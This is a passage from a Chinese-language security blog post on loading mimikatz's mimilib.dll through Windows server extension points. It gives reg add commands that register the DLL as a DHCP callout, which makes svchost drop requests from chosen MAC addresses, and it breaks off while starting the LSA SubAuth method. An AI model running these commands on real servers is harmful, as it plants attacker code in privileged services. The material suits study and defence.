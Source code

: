 测试结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-3-1/2-4.png)

如果想远程实现相同的功能，可参考之前的分析文章：

- [域渗透——利用dnscmd在DNS服务器上实现远程加载Dll](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8dnscmd%E5%9C%A8DNS%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E5%AE%9E%E7%8E%B0%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BDDll/)

### 5.DHCP callout DLL

对应导出函数如下：

- DhcpServerCalloutEntry
- DhcpNewPktHook

使用方法：

需要在DHCP服务器上进行测试

修改源代码，设置需要禁用的MAC地址，对应代码位置：https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdhcp.c#L35

将mimilib.dll保存至`%SystemRoot%\System32`

修改注册表位置：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\DHCPServer\Parameters`

新建注册表项`CalloutDlls`，类型为`REG_MULTI_SZ`，值为`mimilib.dll`

新建注册表项`CalloutEnabled`，类型为`DWORD`，值为`1`

对应的cmd命令如下：

```
reg add HKLM\System\CurrentControlSet\Services\DHCPServer\Parameters /v CalloutDlls /t REG_MULTI_SZ /d "mimilib.dll" /f
reg add HKLM\System\CurrentControlSet\Services\DHCPServer\Parameters /v CalloutEnabled /t REG_DWORD /d 1 /f
```

重新启动系统

进程svchost.exe将会加载mimilib.dll，将对应MAC地址的DHCP请求丢弃

参考资料：

https://docs.microsoft.com/en-us/previous-versions/windows/desktop/dhcp/how-the-dhcp-server-api-operates

### 6.SubAuth

对应导出函数如下：

- Msv1_0SubAuthenticationRoutine
- Msv1_0SubAuthenticationFilter

使用方法：

将mimilib.dll保存至`%SystemRoot%\System32`

修改注册表位置：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0`
